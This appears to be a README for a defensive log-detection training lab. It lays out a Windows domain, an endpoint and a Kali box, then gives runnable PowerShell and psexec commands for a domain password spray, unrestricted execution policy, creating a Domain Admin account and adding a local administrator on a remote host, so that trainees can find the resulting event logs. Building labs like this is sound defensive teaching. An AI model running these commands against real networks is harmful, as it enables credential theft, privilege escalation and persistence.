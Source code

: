 # Lab Setup
For more setup scripts and cool stuff, check out the fork of https://github.com/CyberConTraining/LogDetectionLab by @BoredHackerBlog

## Infrastructure
- Your infrastructure can really be hosted anywhere.
  - Locally via vmware, virtualbox, etc
  - In the cloud via Azure, GCP, AWS
  - Prod? (j/k)

- They should be in all the same network 

### 1. Windows Domain Controller
- Specs
  - supported OS version
  - [Logmira](https://github.com/Blumira/Logmira) (Either reduced or full verbosity is fine)

### 2. Windows Endpoint
- Joined to above domain
- Installs
  - Download and install [Wireshark](https://www.wireshark.org/)
  - Clone [Domain Password Spray from @dafthack](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1)
  - Download both usernames.txt and passlist.txt from this github directory

### 3. Kali Linux

### 4. Optional - Whatever you need for SIEM?
In my case you will see in the demos that I'm using a Blumira sensor. This is an Ubuntu box with a docker container that has a [Blumira](https://www.blumira.com) sensor installed on it. Because this isn't a SIEM training, it's difficult to go through a full lab setup of something like ELK or Splunk. 

We will cover in all lab demos finding event IDs in windows event viewer, but then also the concept of what they would look like in a SIEM as well. For in person trainings, everyone will be provided with logins to the Blumira platform during the class.

## Scripts/Commands

1. [Domain Password Spray from @dafthack](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1)
   - Right-click, run powershell as admin
```
CD *directory that you've cloned the powershell script into*
Get-ExecutionPolicy
Set-ExecutionPolicy Unrestricted
Import-Module .\DomainPasswordSpray.ps1
https://github.com/dafthack/DomainPasswordSpray
Cd C:/DNDShare
Invoke-DomainPasswordSpray -UserList userlist.txt -Domain forgottenforest.local -PasswordList passlist.txt -OutFile sprayed-creds.txt
```
2. Creating a Domain Admin
- Create a DNDUsers OU in Active Directory Users & Computers on the DC
```
Set-ExecutionPolicy Unrestricted
Import-Module ActiveDirectory
New-ADUser -Name "HP Lovecraft" -GivenName "HP Lovecraft" -SamAccountName "hplovecraft" -UserPrincipalName "hplovecraft@forgottenforest.local" -Path "OU=DNDUsers,DC=domain,DC=local" -AccountPassword(Read-Host -AsSecureString "Type Password for User") -Enabled $true
Add-ADGroupMember -Identity “Domain Admins” -Members hplovecraft
```
3. Data Exfil & Network Forensics


4. Lateral Movement
- Psexec add user to another host
```
CD into psexec directory
psexec.exe \\MagicRainbowPC.domain.local -u DNDUser -p passwordhere cmd
net user MyNewUser MyPassword#@$ /add
net localgroup administrators MyNewUser /add
```
